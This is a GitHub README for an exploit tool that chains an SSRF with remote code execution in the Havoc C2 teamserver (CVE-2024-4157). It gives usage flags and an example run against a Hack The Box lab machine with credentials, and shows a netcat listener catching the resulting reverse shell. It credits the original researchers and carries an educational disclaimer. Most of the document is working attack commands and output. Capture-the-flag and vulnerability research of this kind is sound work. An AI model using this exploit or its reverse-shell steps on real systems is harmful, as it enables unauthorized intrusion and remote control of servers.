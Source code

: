 # CVE-2024-4157: Getting Reverse Shell on Havoc C2  - Chaining SSRF with RCE

## Usage
- Basic info
```bash
## -t: target IP where the C2 server is running on
## -i: internal IP address that we want the C2 server to interactive with (SSRF)
## -p: internal port 
## -U: username to the C2 server
## -P: password to the C2 server
## -l: local address for the reverse shell (RCE)
## -lp: local port for the reverse shell
$ python3 exploit.py
usage: exploit.py [-h] -t TARGET -i IP -p PORT [-A USER_AGENT] [-H HOSTNAME] [-u USERNAME] [-d DOMAIN_NAME] [-n PROCESS_NAME] [-ip INTERNAL_IP] -U ADMIN_USERNAME -P
                  PASSWORD -l LOCAL_IP -lp LOCAL_PORT
exploit.py: error: the following arguments are required: -t/--target, -i/--ip, -p/--port, -U/--admin-username, -P/--password, -l/--local-ip, -lp/--local-port
```
- Example
```bash
$ python3 exploit.py -t https://10.129.150.254 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!' -l 10.10.14.54 -lp 4444
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
```
- Reverse shell on our `nc` listener
```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.54] from (UNKNOWN) [10.129.150.254] 53352
bash: cannot set terminal process group (2933): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$ 
```

## Credit

- Credit to the person who discovered the SSRF, [detailed blog on the vulnerability](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/)
- Credit to the person who discovered the RCE, [detailed info on blog](https://blog.includesecurity.com/2024/09/vulnerabilities-in-open-source-c2-frameworks/)
- Credit to [0xdf](https://0xdf.gitlab.io/2025/06/07/htb-backfire.html) with the amazing writeup on [HTB Backfire](https://app.hackthebox.com/machines/Backfire)

## Disclaimer
- This tool is for educational and research purposes only
